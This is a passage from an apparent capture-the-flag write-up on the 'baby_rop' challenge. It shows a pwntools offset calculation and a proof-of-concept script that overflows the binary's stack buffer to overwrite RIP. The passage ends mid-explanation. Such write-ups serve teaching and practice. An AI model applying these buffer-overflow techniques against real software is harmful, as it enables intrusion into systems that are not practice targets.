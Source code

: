 ![GDB-PEDA crash 1](/images/baby_rop/simple-gdb-1.png)

As expected, RIP is overwritten and the application crashes. Finding the register's offset is one function call away:

{% highlight auto %}
>>> from pwn import *
>>> cyclic_find(0x6261616161616169, n=8)
264
>>>
{% endhighlight %}

A simple PoC to crash the application and overwrite RIP with 'C's can be found below:

{% highlight bash %}
from pwn import *

io = process("./pwn_baby_rop")

io.recvuntil("black magic.\n")

gdb.attach(io)

payload = b""
payload += b"A" * 256
payload += b"B" * 8
payload += b"C" * 8

io.sendline(payload)
io.interactive()
{% endhighlight %}

The reason I also included those 8 'B's before the 'C's is to highlight what that string overwrites:
